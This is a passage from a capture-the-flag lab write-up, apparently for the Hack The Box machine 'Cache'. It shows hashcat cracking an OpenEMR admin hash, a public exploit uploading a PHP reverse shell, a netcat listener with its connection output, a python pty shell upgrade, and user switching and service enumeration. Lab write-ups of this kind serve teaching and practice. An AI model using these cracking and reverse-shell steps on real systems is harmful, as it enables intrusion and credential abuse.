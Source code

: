 `hashcat -a 0 -m 3200 Filewiththehash rockyou.txt`

-a 0 tells to use wordlist type of attack, -m 3200 tells about the mode/type of hash , Filewiththehash is self-explainatory and last parameter is the wordlist.

we get the password "xxxxxx" and the user "openemr_admin". At first I was confused that why is the password censored? And turns out that I am a dumbass. The password was literally "xxxxxx".

Now that we have a set of credentials we can use the [exploit](https://www.exploit-db.com/exploits/48515) we found earlier. Replace all the "localhost" in the script with "hms.htb" and edit the credentials. The script is easy to understand. we just upload a php reverse shell and start a netcat listener. When we browse to the php shell we get a connection back.

{%highlight text%}
nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from hms.htb 32876 received!
Linux cache 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 11:22:10 up  3:14,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
{%endhighlight%}

We are currently www-data so I browse to the /home direcotry and see 2 users ash and luffy. First lets spawn a better shell with `python3 -c 'import pty;pty.spawn("/bin/bash")`

Now we have a tty shell we can try to switch to the ash user using the credentials we found inside the javascript in the beginning. Fair enough the creds worked and now we can get the user flag. 

Something tells me that we will need to get the luffy user before we get root. Anyway I perform the usual checks like `sudo -l` which told me that user ash is not allowed to use sudo. Next I to find services which are listening. 

{%highlight text%}
netstat -aon
netstat -aon
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       Timer
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      1 10.10.10.188:55882      8.8.4.4:53              SYN_SENT    on (0.35/0/0)
tcp        0      0 10.10.10.188:60644      10.10.14.28:1111        ESTABLISHED off (0.00/0/0)
tcp        0      0 127.0.0.1:11211         127.0.0.1:55042         TIME_WAIT   timewait (35.35/0/0)
tcp        0      0 10.10.10.188:60702      10.10.14.28:1111        ESTABLISHED off (0.00/0/0)
tcp        0     14 10.10.10.188:32876      10.10.14.8:1234         ESTABLISHED on (0.81/0/0)
tcp6       0      0 :::80                   :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      off (0.00/0/0)

--snip--
{%endhighlight%}
